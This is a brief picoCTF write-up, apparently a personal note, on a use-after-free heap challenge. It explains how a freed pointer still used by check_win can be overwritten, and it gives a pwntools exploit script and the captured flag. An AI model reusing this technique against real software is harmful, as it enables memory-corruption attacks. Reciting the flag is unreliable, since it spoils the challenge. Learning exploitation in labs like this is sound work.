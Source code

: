 ```yaml
---
ai_date: 2025-04-27 05:29:37
ai_summary: "Memory Leak Exploitation: Overwriting 'x' after freeing it"
ai_tags:
  - malloc
  - leak
  - untracked
  - overwriting
created: 2024-08-08T00:05
updated: 2025-07-14T09:46
---
```


> freed but still in use
> now memory untracked
> do you smell the bug?

`malloc` will return the same address if the previous address was freed.

But `check_win` still uses the same address of `x` to check for win.

We can simply overwrite the data at `x` by liberating it and allocating a new object over there.

```python
from pwn import *
s = remote("tethys.picoctf.net", 60691)
s.sendlineafter(b": ", b"5")
s.sendlineafter(b": ", b"2")
s.sendlineafter(b": ", b"35")
s.sendlineafter(b": ", b"a"*30+b'pico')
s.sendlineafter(b": ", b"4")
info(s.recvall())
```

```flag
picoCTF{now_thats_free_real_estate_79173b73}
```

> Fun fact, size 40 also works.